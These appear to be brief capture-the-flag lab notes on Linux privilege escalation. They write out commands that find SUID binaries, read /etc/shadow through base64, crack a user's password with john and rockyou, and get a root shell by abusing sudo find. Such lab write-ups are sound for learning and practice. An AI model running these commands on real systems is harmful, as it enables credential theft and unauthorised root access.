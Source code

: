 ## Go to shared folder in target machine
>. cd /home/ubuntu/sharedfolder
-- Change permission (from local machine)
   >> chmod +x code


[=]  Capstone Challenge  [=]

## PrivEsc via SUID
>. find / -type f -perm -04000 -ls 2>/dev/null
>. LFILE=/etc/shadow
>. /usr/bin/base64 "$LFILE" | base64 --decode

## Crack missy password
>> john --wordlist=/usr/share/wordlists/rockyou.txt massy.txt

## Change user to missy
>. su missy
   -- password = Password1

## PrivEsc via Sudo
>. sudo /usr/bin/find . -exec /bin/sh \; -quit

## Find Flag !!